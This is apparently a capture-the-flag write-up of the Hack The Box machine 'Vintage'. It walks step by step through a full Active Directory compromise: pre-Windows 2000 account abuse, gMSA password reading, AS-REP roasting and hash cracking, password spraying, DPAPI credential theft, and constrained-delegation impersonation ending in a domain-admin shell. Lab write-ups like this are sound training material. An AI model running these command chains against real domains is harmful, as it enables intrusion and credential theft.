







# Vintage


## Initial Enumeration

```bash
nmap -sC -sV -Pn 10.10.11.45 -oN scans/nmap.initial
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-23 21:34 GMT
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 36.68% done; ETC: 21:41 (0:03:57 remaining)
Stats: 0:06:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 91.67% done; ETC: 21:41 (0:00:05 remaining)
Stats: 0:07:29 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.96% done; ETC: 21:42 (0:00:00 remaining)
Nmap scan report for 10.10.11.45
Host is up (1.1s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-23 14:40:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-03-23T14:41:23
|_  start_date: N/A
|_clock-skew: -6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 452.07 seconds
```

Windows auth is apparently disabled
```bash
nxc ldap 10.10.11.45 -u 'p.rosa' -p 'Rosaisbest123'
```

Trying to see if I can find some users, not really
```bash
kerbrute userenum \
  -d vintage.htb \
  --dc 10.10.11.45 \
  -o loot/valid_ad_users \
  /usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
```

Fails
```bash
smbclient -U 'p.rosa' --password 'Rosaisbest123' -L //10.10.11.45/
```

Fails
```bash
evil-winrm -i vintage.htb -u p.rosa -p 'Rosaisbest123'
```

We just get the domain out of that nothing more
```bash
python3 enum4linux-ng.py -As 10.10.11.45
```

Further dns enumeration
```bash
dig +short ANY @10.10.11.45 vintage.htb
10.10.11.45
dc01.vintage.htb.
dc01.vintage.htb. hostmaster.vintage.htb. 226 900 600 86400 3600
```

Sincing NTP with the controller
```bash
sudo ntpdate vintage.htb
```

We can get a TGT with rosa's creds
```bash
getTGT.py vintage.htb/p.rosa:'Rosaisbest123'
```
```bash
export KRB5CCNAME=p.rosa.ccache
```

Fails
```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

Fails
```bash
psexec.py vintage.htb/p.rosa@vintage.htb -k -no-pass
```

But we can authenticate to ldap apparently
```bash
nxc ldap 10.10.11.45 -k --use-kcache
```

## Enumeration AD/LDAP

Using bloodhound.py to dump some ldap data for bloodhound
```bash
python3 /opt/BloodHound.py/bloodhound.py \
  -u 'p.rosa' \
  -p 'Rosaisbest123' \
  -d vintage.htb \
  -ns 10.10.11.45 \
  -c All \
  -k
```

Getting a list of users with powerview.py
```bash
python3 /opt/powerview.py/powerview.py \
  'vintage.htb/p.rosa:Rosaisbest123@dc01.vintage.htb' \
  -k
```
```powershell
Get-DomainUser
```
```bash
cat users
```
```
administrator
guest
krbtgt
svc_ark
svc_ldap
svc_sql
l.bianchi_adm
c.neri_adm
p.rosa
c.neri
g.viola
l.bianchi
r.verdi
m.rossi
```

We could also have done it with ldapsearch
```bash
ldapsearch -x -LLL \
  -H ldap://10.10.11.45:389 \
  -b "CN=users,DC=vintage,DC=htb" \
  -D "p.rosa@vintage.htb" \
  -w "Rosaisbest123" \
  "(objectClass=user)" \
  sAMAccountName |\
grep sAMAccountName |\
cut -d' ' -f 2
```

## Pre-windows 2000 compatible access

- [https://www.semperis.com/blog/security-risks-pre-windows-2000-compatibility-windows-2022/](https://www.semperis.com/blog/security-risks-pre-windows-2000-compatibility-windows-2022/)
- [https://trustedsec.com/blog/diving-into-pre-created-computer-accounts](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)
- [https://www.hackingarticles.in/abusing-ad-weak-permission-pre2k-compatibility/](https://www.hackingarticles.in/abusing-ad-weak-permission-pre2k-compatibility/)


Looking at things in bloodhound we can see that the `AUTHENTICATED USERS` group is a member of `PRE-WINDOWS 2000 COMPATIBLE ACCESS` as pointed out in the semperis blog as a being a default. This means all users including rosa can use that on the FS01 computer.



Trying and failing to dump hashes with different tools. I think this doesn't work because windows auth is disabled, and we need to authenticate via kerberos, which may not be working with those.
```bash
nxc ldap 10.10.11.45 -k --use-kcache -M pre2k
```
```bash
nxc ldap 10.10.11.45 -u 'p.rosa' -p 'Rosaisbest123' -M pre2k
```
```bash
pre2k auth -u 'p.rosa' -p 'Rosaisbest123' -dc-ip 10.10.11.45 -d ignite.local
```

Reading further on the trustedsec blog above I found out that by default checking the `Assign this computer account as a pre-Windows 2000 computer` box will create default computer accounts with a password matching the name of the computer in lowercase

So like that? Yes
```bash
getTGT.py \
  -dc-ip 10.10.11.45 \
  'vintage.htb/FS01$:fs01'
```
```bash
export KRB5CCNAME='FS01$.ccache'
```

## FS01 has ReadGMSAPassword

So we have a ticket as the FS01 computer account, lets look at bloodhound again to find what we might want to do with that.



A gMSA or group Managed Service Account is a domain account that can be used to run services on multiple servers without having to manage the password. The gMSA provides automatic password management and simplified service principal name (SPN) management, including delegation of management to other administrators.

So when logged in as FS01 we should be able to read the password of the gMSA, or dump its hash.
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    get object 'GMSA01$' \
      --attr msDS-ManagedPassword
```

We can get a TGT as the gMSA based on the NT hash
```bash
getTGT.py \
  -dc-ip 10.10.11.45 \
  'vintage.htb/GMSA01$:' \
  -hashes ':5143*********************'
```
```bash
export KRB5CCNAME='GMSA01$.ccache'
```

## gMSA genericWrite over servicemanagers

Once again back to bloodhound, looking at the outbound object control for the gMSA, it does have `addSelf`, and `genericWrite` over the `SERVICEMANAGERS` group.



So while logged in over kerberos as the gMSA, we can add p.rosa as a member of service managers.
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    add groupMember "SERVICEMANAGERS" "P.Rosa"
```

## Servicemanagers genericWrite over system accounts

This is helpful because servicemanagers has generic write over those 3 accounts


Get a TGT as rosa again
```bash
getTGT.py vintage.htb/p.rosa:'Rosaisbest123'
```
```bash
export KRB5CCNAME=p.rosa.ccache
```

Validate that we are indeed a member of servicemanagers
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    get membership p.rosa
```

A mentionned before we have genericWrite over a few service accounts, so we could add the `DONT_REQ_PREAUTH` `User Account Control`, to `Kerberoast` them later, let's just sanity check this first and see if it is disabled on any of the users we know about. We'll use the user list we have gathered in our ldap enumeration phase.

No it's not disabled anywhere yet.
```bash
GetNPUsers.py \
  -dc-ip 10.10.11.45 \
  -usersfile loot/users \
  -request \
  vintage.htb/
```

Let's disable it on all 3 accounts
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    add uac SVC_ARK \
      -f DONT_REQ_PREAUTH
```
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    add uac SVC_LDAP \
      -f DONT_REQ_PREAUTH
```
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    add uac SVC_SQL \
      -f DONT_REQ_PREAUTH
```

## AS-Rep Roasting

Now we can dump the as-rep hashes for them, except `svc_sql`, we get `KDC_ERR_CLIENT_REVOKED`
```bash
GetNPUsers.py \
  -dc-ip 10.10.11.45 \
  -usersfile loot/users \
  -request \
  vintage.htb/
```

This is because this account has the `ACCOUNTDISABLE` `uac`
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    get object SVC_SQL
```

Let's just remove that
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    remove uac SVC_SQL \
     -f ACCOUNTDISABLE
```

And roast again, now we get an as-rep for all 3 accounts
```bash
GetNPUsers.py \
  -dc-ip 10.10.11.45 \
  -usersfile loot/users \
  -request \
  vintage.htb/
```

Lookup the correct hashcat mode for as-rep
```bash
hashcat --help|grep -i as-rep
```

And run rockyou through it
```bash
hashcat -m 18200 roast ~/.local/share/seclists/rockyou.txt 
```

We managed to crack the `svc_sql` account
```bash
hashcat -m 18200 roast ~/.local/share/seclists/rockyou.txt --show
```

Get a TGT with that...
```bash
getTGT.py vintage.htb/svc_sql:'Zer******'
```
```bash
export KRB5CCNAME=svc_sql.ccache
```

But as we saw on the initial nmap run there's no mssql service running on this box, it does make sense, this account is disabled for a reason.
```bash
nxc mssql 10.10.11.45 -k --use-kcache
```

## Password Reuse

But the password might have been reused somewhere
```bash
kerbrute passwordspray \
  --dc vintage.htb \
  -d vintage.htb \
  loot/users \
  'Zer******'
```

And it has been reused indeed by the c.neri user
```bash
getTGT.py vintage.htb/c.neri:'Zer******'
```
```bash
export KRB5CCNAME=c.neri.ccache
```

Configure the realm properly
```bash
cat /etc/krb5.conf
```
```
[libdefaults]
    default_realm = VINTAGE.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    VINTAGE.HTB = {
        kdc = vintage.htb
        admin_server = vintage.htb
    }

[domain_realm]
    .vintage.htb = VINTAGE.HTB
    vintage.htb = VINTAGE.HTB
```

And we can now winrm as c.neri
```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```


## Stealing and Decrypting DPAPI Secrets

- [https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

.NET provides access to the Data Protection API (DPAPI), it is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords).

The data is stored in the users directory and is secured by user-specific master keys derived from the users password.

### Stealing the Encryption Key

The keys are usually located in:
- `C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID`

The download helper of evil-winrm doesn't work for me so, since those are pretty small anyway, I'm just encoding them in base64 to exflitrate them through the clipboard

Getting the SID and GUID for c.neri
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    get object c.neri
```
```
objectGUID: 486e5074-c6a2-476f-b4ba-5c8a925ef7e6
objectSid: S-1-5-21-4024337825-2033394866-2055507597-1115
```

Getting the key
```powershell
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\C.Neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6"))
```

Dropping it into my machine
```bash
wl-paste | base64 -d > C4BB96844A5C9DD45D5B6A9859252BA6
```

### Stealing Encrypted Secrets

DPAPI-protected secrets are typically located in:
- `C:\Users\$USER\AppData\Local\Microsoft\Credentials\`
- `C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\`

Looking around
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
```
```powershell
dir -h
```

Exfil
```powershell
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"))
```

Dropping it into my own box
```bash
wl-paste | base64 -d > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

### Decrypting the secrets

The encryption key is password protected, but we already have the user's password
```bash
dpapi.py masterkey \
  -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b \
  -sid S-1-5-21-4024337825-2033394866-2055507597-1115 \
  -password Zer******
```

Now with the key in plaintext for we can decrypt the secret and it's the password for `c.neri_adm`
```bash
dpapi.py credential \
  -file C4BB96844A5C9DD45D5B6A9859252BA6 \
  -key 0xf*******************************************************************************************************************************
```
```bash
getTGT.py vintage.htb/c.neri_adm:'Uncr4ck4bl3P4ssW0rd0312'
```
```bash
export KRB5CCNAME=c.neri_adm.ccache
```

Cool, back to bloodhound.

## C Neri Adm GenericWrite to DelegatedAdmins

- [https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13](https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13)

Same as usual we're looking at the outbound object controls for `c.neri_adm` and it has generiWrite over a group called delegated admins



Which means we can connect as `c.neri_adm` and add members to `delegatedadmins`, we'll add `svc_sql`
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    add groupMember "DELEGATEDADMINS" "SVC_SQL"  
```

How is this helpful? Because since the sql service is disabled we can give it constrained access to a fake spn, and `svc_sql` will then be able to impersonate an admin when connecting to that service specifically.

Give `svc_sql` a fake spn
```bash
bloodyAD -k \
  --dc-ip 10.10.11.45 \
  --host dc01.vintage.htb \
  -d "VINTAGE.HTB" \
    set object "SVC_SQL" servicePrincipalName \
      -v "cifs/fake" 
```

Get a TGT as `svc_sql` again
```bash
getTGT.py vintage.htb/svc_sql:'Zer******'
```
```bash
export KRB5CCNAME=svc_sql.ccache
```



Get a Service Ticket to that fake spn while impersonating another admin: `l.bianchi_adm` 
```bash
getST.py -k \
  -spn 'cifs/dc01.vintage.htb' \
  -impersonate l.bianchi_adm \
  -dc-ip 10.10.11.45 \
  'vintage.htb/svc_sql:Zer******'
```
```bash
export KRB5CCNAME=l.bianchi_adm.ccache
```

And finally we can use that Service Ticket with wmi to get a shell as `l.bianchi_admin`
```bash
wmiexec.py vintage.htb/l.bianchi_adm@dc01.vintage.htb -k -no-pass 
```

That account is a member of the domain admins group, which gives us full admin on the dc.


